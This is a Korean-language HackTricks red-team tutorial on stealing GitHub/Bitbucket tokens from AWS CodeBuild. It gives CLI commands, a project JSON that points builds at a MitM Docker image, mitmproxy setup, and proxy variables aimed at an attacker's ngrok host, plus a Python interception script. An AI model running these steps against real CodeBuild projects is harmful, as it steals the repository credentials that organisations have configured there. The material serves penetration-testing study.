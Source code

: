 # AWS Codebuild - 토큰 누출

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 **제로**부터 **히어로**로 AWS 해킹을 배우세요!</summary>

HackTricks를 지원하는 다른 방법:

* **회사가 HackTricks에 광고**되길 원하거나 **PDF 형식의 HackTricks를 다운로드**하려면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)를 **팔로우**하세요.
* **HackTricks** 및 **HackTricks Cloud** github 저장소에 PR을 제출하여 해킹 트릭을 공유하세요.

</details>

## Github/Bitbucket 구성된 토큰 복구

먼저, 누출할 수 있는 소스 자격 증명이 구성되어 있는지 확인하세요:
```bash
aws codebuild list-source-credentials
```
### 도커 이미지를 통해

만약 권한 부여가 예를 들어 Github에 설정되어 있다면, 프로젝트의 빌드를 실행하기 위해 Codebuild가 **특정 도커 이미지를 사용하도록** 설정하여 해당 **액세스(GH 토큰 또는 OAuth 토큰)**를 **유출**할 수 있습니다.

이를 위해 **새로운 Codebuild 프로젝트를 생성**하거나 기존 프로젝트의 **환경을 변경**하여 **도커 이미지를 설정**할 수 있습니다.

사용할 수 있는 도커 이미지는 [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm)입니다. 이는 **`https_proxy`**, **`http_proxy`**, **`SSL_CERT_FILE`** 환경 변수를 설정하는 매우 기본적인 도커 이미지입니다. 이를 통해 **`https_proxy`** 및 **`http_proxy`**에 지정된 호스트의 대부분의 트래픽을 가로챌 수 있으며 **`SSL_CERT_FILE`**에 지정된 SSL CERT를 신뢰할 수 있습니다.

1. **자체 Docker MitM 이미지 생성 및 업로드**
* 저장소 지침을 따라 프록시 IP 주소를 설정하고 SSL 인증서를 설정하고 **도커 이미지를 빌드**합니다.
* 메타데이터 엔드포인트로의 요청을 가로채지 않도록 **`http_proxy`를 설정하지 마십시오**.
* 호스트에 프록시를 설정하기 위해 `ngrok tcp 4444`와 같은 **`ngrok`**을 사용할 수 있습니다.
* 도커 이미지를 빌드한 후, 해당 이미지를 **공개 저장소**(Dockerhub, ECR...)에 **업로드**합니다.
2. **환경 설정**
* **새로운 Codebuild 프로젝트를 생성**하거나 기존 프로젝트의 **환경을 수정**합니다.
* 프로젝트가 **이전에 생성된 도커 이미지를 사용하도록** 설정합니다.

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **호스트에서 MitM 프록시 설정**
* **Github 저장소**에서 제안된대로 다음과 같은 것을 사용할 수 있습니다:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
**mitmproxy 버전은 9.0.1**을 사용했으며, 버전 10에서는 작동하지 않을 수 있다고 보고되었습니다.
{% endhint %}

4. **빌드를 실행하고 자격 증명을 캡처합니다**

*   **Authorization** 헤더에서 토큰을 볼 수 있습니다:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

이 작업은 aws cli에서도 다음과 같이 수행할 수 있습니다

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~HTTP 프로토콜을 통해~~

{% hint style="success" %}
**이 취약점은 2023년 2월 20일 주간 중 어딘가에서 AWS에 의해 수정되었습니다 (아마도 금요일에). 따라서 공격자는 더 이상 악용할 수 없습니다 :)**
{% endhint %}

**CodeBuild에서 권한이 상승된 공격자는 구성된 Github/Bitbucket 토큰을 유출**할 수 있거나 권한이 OAuth를 통해 구성된 경우 **코드에 액세스하는 데 사용된 임시 OAuth 토큰**을 유출할 수 있습니다.

* 공격자는 CodeBuild 프로젝트에 환경 변수 **http\_proxy** 및 **https\_proxy**를 추가하여 자신의 기기를 가리키도록 할 수 있습니다 (예: `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* 그런 다음, github 리포지토리의 URL을 HTTPS 대신 HTTP를 사용하도록 변경할 수 있습니다. 예를 들어: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* 그런 다음, 프록시 변수 (http\_proxy 및 https\_proxy)가 가리키는 포트에서 [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm)의 기본 예제를 실행합니다.
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* 마지막으로 **프로젝트 빌드**를 클릭하면 **자격 증명**이 mitm 포트로 **평문으로 전송**됩니다 (base64):

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
이제 공격자는 자신의 기기에서 토큰을 사용하여 모든 권한을 나열하고 CodeBuild 서비스를 직접 사용하는 것보다 쉽게 (남용)할 수 있습니다.
{% endhint %}

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배우세요!</summary>

HackTricks를 지원하는 다른 방법:

* **회사가 HackTricks에 광고되길 원하거나** **PDF로 HackTricks를 다운로드**하려면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f)에 가입하거나 [**텔레그램 그룹**](https://t.me/peass)에 가입하거나** 트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **HackTricks** 및 **HackTricks Cloud** github 저장소에 PR을 제출하여 해킹 트릭을 공유하세요.

</details>
